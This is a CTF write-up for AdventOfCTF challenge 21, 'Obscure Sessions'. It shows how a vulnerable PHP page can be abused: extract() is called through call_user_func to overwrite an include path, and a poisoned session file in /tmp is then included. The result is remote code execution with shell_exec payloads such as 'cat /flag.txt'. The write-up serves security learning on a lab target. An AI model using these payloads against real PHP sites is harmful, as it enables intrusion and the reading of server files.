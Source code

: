 +++
author = "Maik de Kruif"
title = "Obscure Sessions"
subtitle = "Challenge 21 - AdventOfCTF"
date = 2021-02-26T11:45:53+01:00
description = "A writeup for challenge 21 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/a4afd1fffb0b662d849a6907767f0625.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_21"
]
+++

- Points: 2100

## Description

We are testing a new mechanism to filter out malicious content from URLs. This application is the test page for this feature. I hope it works, these hackers are very active!

The flag is in /flag.txt

Visit <https://21.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with some PHP code:

```php
<?php
error_reporting(0);

ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');

# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);

# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}

header("Location: /index.php");
exit();
?>
```

Besides this, we can also see an input field for a name. From it's source, we can tell it send a `POST` request to `/get_flag.php` upon submitting the form.

## Analyzing the code

Let's start by going over the PHP code line by line.

```php
ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');
```

The code starts by setting two PHP settings. The first one is pretty obvious; it disables the display of errors. The second one is a little more interesting. If we take a look at the [php documentation](https://www.php.net/manual/en/ini.core.php#ini.open-basedir) we find the following:

> Limit the files that can be accessed by PHP to the specified directory-tree, including the file itself.
> [...]
> When a script tries to access the filesystem, for example using include, or fopen(), the location of the file is checked. When the file is outside the specified directory-tree, PHP will refuse to access it.

This means we can, thus, only read files from the `/var/www/html` and `/tmp` directory. This is peculiar as we normally don't need to read anything from the `/tmp` folder.

```php
# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);
```

Moving on ot the next part, two variables are set: `$file` and `$func`. `$file` is set to a path which is later included with `include($file)`. To set the `$func` variable, the code will first check if `$_GET['function']` exists, and if so sets the variable to it, otherwise, the variable is set to the string `"filters"`.

After setting these variables, the script will execute `call_user_func` with two parameters. To see what this function does, we can have a look at the [docs](https://www.php.net/manual/en/function.call-user-func.php) again:

> Calls the callback given by the first parameter and passes the remaining parameters as arguments.

This means it will execute the function saved in `$func`, which, we can set using the `GET` parameter `function`. It also passes all `GET` parameters as arguments.

After calling `call_user_func`, it [includes](https://www.php.net/manual/en/function.include.php) the `$file` variable. This means it will take the contents of the file at the path saved in `$file` and pretend it was written here.

```php
# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}
```

This part is also interesting. The code start a session and, if the `"name"` parameter exists in a `POST` request to this page, saves it to this session.

The interesting part is that we don't see it being used anywhere.

```php
header("Location: /index.php");
exit();
```

Finally, the script will add a `Location` header with `/index.php` as the content, this is basically a redirect, and then exits the process.

### Summary

Let's put this all together.

Firstly, the code restricts the read access of our program to `/var/www/html` and `/tmp`. It then, if it exists, calls the function passed in the `GET` parameter `function`. If it isn't set, it will call the `filters` function instead. Afterwards, it includes a file at the path saved in `$file`.

After all of this, it will start a session and, if the `POST` parameter `name` is set, saves the contents of that parameter to the session.

## Finding the vulnerability

The goal is to read the `/flag.txt` file which is not saved in either `/var/www/html` nor `/tmp`. This means we cannot exploit the `include` function to read it directly.

Let's have another look at the bottom code for the session. A variable in the session is set, but where is it actually saved? As PHP doesn't "run" like a python server would, it can't save it to memory. This means the session is probably saved to a file.

If we have a look on Google, we can find that PHP sessions are saved as separate files in the OS's temporary directory. For Linux, this is `/tmp`.

Hooray! This means the `include` function can access the session files. This is quite useless though if we can't actually use the include function. So let's get to that first.

### Including files

The only way to include a file from what I can see is to either use `call_user_func` to include a file, or use `call_user_func` to somehow overwrite the `&file` variable.

The first approach won't work though as `GET` parameters always have a name, and the `include` function doesn't use those.

There is, however, a way to overwrite the `&file` variable. We can do this using PHP's `extract` function.

From the [docs](https://www.php.net/manual/en/function.extract):

> extract — Import variables into the current symbol table from an array

In English, this means it imports the variables from the passed array into our code.

This is great as the passed array is the `$_GET` array. This is an array in which all our `GET` parameters are saved. This means that if we add a parameter with the name "file", it will, hopefully, overwrite the existing variable.

Let's test this. Firstly we have to set the name variable. To do this we can just enter some text in the input field and press submit. After this, we can make a `GET` request to `/get_flag.php` to read the file.

To make this request, we first need the session token. We can find in the cookies in our browser. For me, it was `e62ac597cd97e0638d898fff45c3b878`. Afterwards, we can make a request like this to get the contents of our session file: `/get_flag.php?function=extract&file=/tmp/sess_e62ac597cd97e0638d898fff45c3b878`.

This then returns the following:

```text
name|s:15:"Your cool name!";
```

As we can see, our input is directly saved to the file. Because we are reading the file using `include`, it also executes any PHP code it finds there. Let's verify that by setting our name to `<?php phpinfo(); ?>`.

If we now open the page with our file read again, we see the PHP info.

## Exploit

Now that we have PHP injection, we can easily turn this into Remote Code Execution (RCE). We do this by using the `shell_exec` function like so:

```php
<?php echo shell_exec("ls"); ?>
```

If we send this as the name, we get the following result:

```text
name|s:31:"error_pages
favicon.ico
filters.php
get_flag.php
index.php
logo.png
style.css
";
```

The description told us the flag was located at `/flag.txt` so let's open it using the following input:

```php
<?php echo shell_exec("cat /flag.txt"); ?>
```

## Solution

We got the flag! It is `NOVI{extract_1s_ev1l_on_us3r_inpu7}`.
